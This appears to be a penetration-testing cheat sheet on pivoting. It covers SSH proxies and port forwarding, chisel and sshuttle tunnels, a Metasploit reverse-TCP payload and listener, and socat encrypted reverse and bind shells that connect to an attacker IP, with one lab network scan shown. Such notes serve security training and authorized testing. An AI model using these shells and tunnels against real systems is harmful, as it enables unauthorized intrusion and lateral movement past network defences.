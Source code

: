 ```yaml
---
title: Proxy & Port forwarding
description: Desciption of two pivot techniques, port forwarding and proxy.
---
```


# Proxy & Port forwarding

**2 methods :**

- **Tunnelling/Proxying:** Creating a proxy type connection through a compromised machine in order to route all desired traffic into the targeted network. This could potentially also be _tunnelled_ inside another protocol (e.g. SSH tunnelling), which can be useful for evading a basic **I**ntrusion **D**etection **S**ystem (IDS) or firewall.
- **Port Forwarding:** Creating a connection between a local port and a single port on a target, via a compromised host.

Port Forwarding tends to be faster and more reliable, but only allows us to access a single port (or a small range) on a target device.

## Using SSH

### Proxy

**Proxy :** http://127.0.0.1:8080

```bash
ssh -D 8080 user@example.com -fN
```

**Proxy :** socks5://127.0.0.1:9050

```bash
ssh -g -D 9050 user@example.com -fN
```

### Port forwarding (local)

The `example.com` machine has a web server running on port 8000 internally (not exposed to the internet). With the following command you can now access the web server from `http://localhost:4444`.

```bash
ssh -L 4444:127.0.0.1:8000 user@example.com -fN
```

- `-f` : Backgrounds ssh.
- `-N` : Do not execute a remote command.

### Port forwarding (remote)

**Goal :** localhost:4444 -> host1:4444 -> host2:80

Listen on all interfaces :

```bash
# localhost:4444 -> host1:4444 -> host2:80
ssh -R 0.0.0.0:4444:host2:80 user@host1 -fN
```

!!! warning
    You need also to configure SSH daemon on target host to allow client to specify the bind_address. It is prohibited by default to listen to all interfaces. So, you will always find it listening on loopback even if you specifiy 0.0.0.0 as bind_address.

When you cannot listen on all interfaces :

```bash
# localhost:4444 -> host1:4444
ssh -L 4444:127.0.0.1:4444 user@host1 -fN
# host1:4444 -> host2:80
ssh -R 4444:host2:80 user@host1 -fN
```

## Using metasploit (meterpreter)

### Port forwarding

- Generate the exploit with `msfvenom`.

```bash
$ msfvenom -p 'linux/x64/meterpreter_reverse_tcp' LHOST=10.132.0.2 LPORT=9001 -f elf > exploit.bin
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1037272 bytes
Final size of elf file: 1037272 bytes

$ file exploit.bin
exploit.bin: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), static-pie linked, with debug_info, not stripped
```

- Setup listener

```bash
$ msfconsole
...
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set LHOST ens4
LHOST => 10.132.0.2
msf6 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/meterpreter_reverse_tcp
PAYLOAD => linux/x64/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.132.0.2:9001
[*] Meterpreter session 1 opened (10.132.0.2:9001 -> 10.154.0.2:45462 ) at 2021-10-19 19:27:31 +0000

meterpreter >
```

- Do port forwarding

```
meterpreter > portfwd add -l 4444 -p 8000 -r 127.0.0.1
[*] Local TCP relay created: :4444 <-> 127.0.0.1:8000
meterpreter > portfwd list

Active Port Forwards
====================

   Index  Local           Remote        Direction
   -----  -----           ------        ---------
   1      127.0.0.1:8000  0.0.0.0:4444  Forward

1 total active port forwards.

meterpreter > portfwd delete -l 4444 -p 8000 -r 127.0.0.1
[*] Successfully stopped TCP relay on 0.0.0.0:4444
```

`-l` : Port on your local machine (attacker machine).
`-p` : Port on the remote machine (victim machine).
`-r` : Target host.

## Using socat

### Port forwarding

```bash
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &
```

Listent on `33060`, then redirect to `172.16.0.10:3306`.

- `fork` : create new process for every connection.
- `reuseaddr` : port stays open after a connection close.

### Encrypted shell

Generate certificates :

```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
cat shell.key shell.crt > shell.pem
```
Reverse shell :

```bash
# Listener (attacker)
socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 -

# Connection (victim)
./socat OPENSSL:10.10.10.1:4444,verify=0 EXEC:/bin/bash
```

Bind shell :

```bash
# Listener (victim)
./socat OPENSSL-LISTEN:4444,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes

# Connection (attacker)
socat OPENSSL:10.10.200.1:4444,verify=0 -
```

## Using chisel

Link : [chisel](https://github.com/jpillora/chisel).

### Port fowarding

Example : `localhost:8081` -> `victim:8080` (from local)

```bash
# Listener (attacker on 10.10.10.1)
./chisel server -p 4444 --reverse

# Connection (victim)
./chisel client 10.10.10.1:4444 R:8081:127.0.0.1:8080
```

## Using sshuttle

Link : [sshuttle](https://github.com/sshuttle/sshuttle).

Sshuttle acts as a VPN and allows us to pass our traffic targeting the victim's network through the victim machine. Sshuttle uses the SSH protocol, so communications are encrypted.

```bash
# SSH (user / password)
sudo sshuttle -r user@10.100.10.1 -N
# SSH (private key)
sudo sshuttle -r user@10.100.10.1 -N --ssh-cmd 'ssh -i id_rsa'

# Manually set the network range
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24
# or
sudo sshuttle -r user@172.16.0.5 172.16.0.0/24 -x 172.16.0.5
```

**Practical example :**

Run a nmap scan to discover the victim network direclty from the attacker host.

```bash
$ sudo sshuttle -r root@10.200.196.200 -N --ssh-cmd 'ssh -i id_rsa -o StrictHostKeychecking=no' &
[1] 6803
c : Connected to server.
$ sudo nmap -sn 10.200.196.0/24 -oN hosts.lst
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-03 18:32 CET
Nmap scan report for thomaswreath.thm (10.200.196.200)
Host is up (0.19s latency).
Nmap scan report for 10.200.196.250
Host is up (0.12s latency).
Nmap done: 256 IP addresses (2 hosts up) scanned in 40.04 seconds
```

- `-sn` : Ping Scan - disable port scan
